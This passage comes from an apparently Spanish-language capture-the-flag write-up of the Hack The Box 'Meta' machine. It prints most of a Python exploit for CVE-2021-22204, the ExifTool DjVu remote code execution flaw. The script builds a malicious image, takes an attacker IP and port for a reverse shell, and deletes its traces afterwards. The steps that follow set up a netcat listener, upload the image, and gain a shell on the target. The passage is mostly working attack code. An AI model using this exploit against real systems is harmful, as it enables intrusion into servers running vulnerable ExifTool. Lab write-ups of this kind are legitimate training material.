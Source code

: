 ```python
        print(content, file=f)
    
#execute malicious image
def run():
    subprocess.run(['bzz', 'payload', 'payload.bzz'])
    subprocess.run(['djvumake', 'exploit.djvu', 'INFO=1,1', 'BGjp=/dev/null', 'ANTz=payload.bzz'])
    subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'payload.jpg'])

#remove others files
def remove_files():
    subprocess.run(['rm', 'configfile', 'exploit.djvu', 'payload', 'payload.bzz', 'payload.jpg_original'])

#main
if __name__ == '__main__':
    
    ip_address = sys.argv[1]
    port = sys.argv[2]
     
    checkTools()
    create_image()
    payload = gen_payload(ip_address, port)
    gen_config_file()
    gen_payload_file(payload)
    run()

    remove_files()



#References
#---------------------------------------------------------------------------------
#https://github.com/convisolabs/CVE-2021-22204-exiftool
#https://github.com/LazyTitan33/ExifTool-DjVu-exploit/blob/main/CVE-2021.22204.py
#https://github.com/CsEnox/Gitlab-Exiftool-RCE/blob/main/exploit.py
```
Pueden clonar el exploit en mi repositorio: [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/CVE-2021-22204_Meta/exploit.py)


Una vez descargado le dan permisos de ejecución `chmod +x exploit.py`, le asignamos nuestra **IP** y el **puerto** por el cuál nos pondremos en escucha para recibir
 la shell:

![CVE-2021-22204](cve-2021-22204.png){: .shadow }

> Uso: `./exploit.py <nuestra IP> <puerto de escucha>`
{: .prompt-tip}


Ya tendremos la imagen maliciosa `payload.jpg`, ahora nos pondremos a escucha por el puerto especificado `nc -lvp 1234` y nos dirigimos a la web para subir el archivo y entrar como el usuario _www_data_, como siempre hacemos tratamiento de la tty para tener una **consola interactiva**:
